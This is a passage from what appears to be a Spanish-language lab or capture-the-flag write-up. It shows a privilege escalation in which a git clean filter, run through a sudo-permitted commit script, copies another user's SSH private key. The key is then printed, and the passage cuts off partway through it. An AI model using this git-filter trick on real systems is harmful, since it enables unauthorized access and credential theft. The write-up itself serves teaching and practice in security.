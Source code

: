 Podemos aprovecharnos del script para leer la clave privada del usuario `svc` y dejarla en un archivo

```sh
www-data@encoding:~$ echo "cat /home/svc/.ssh/id_rsa > /tmp/key" > /tmp/readkey
www-data@encoding:~$ chmod +x /tmp/readkey 
www-data@encoding:~$ cd image/
www-data@encoding:~/image$ git init
Reinitialized existing Git repository in /var/www/image/.git/
www-data@encoding:~/image$ echo "*.php filter=indent" > .git/info/attributes
www-data@encoding:~/image$ git config filter.indent.clean /tmp/readkey 
www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh 
On branch master
Changes not staged for commit:
  (use "git add <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	modified:   actions/action_handler.php
	modified:   index.php
	modified:   utils.php

no changes added to commit (use "git add" and/or "git commit -a")
www-data@encoding:~/image$ 
```

Ahora si nos dirigimos al archivo `/tmp/key` podemos leer la clave privada del usuario `svc`

```sh
www-data@encoding:~/image$ cd /tmp/
www-data@encoding:/tmp$ cat key 
-----BEGIN OPENSSH PRIVATE KEY-----
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
```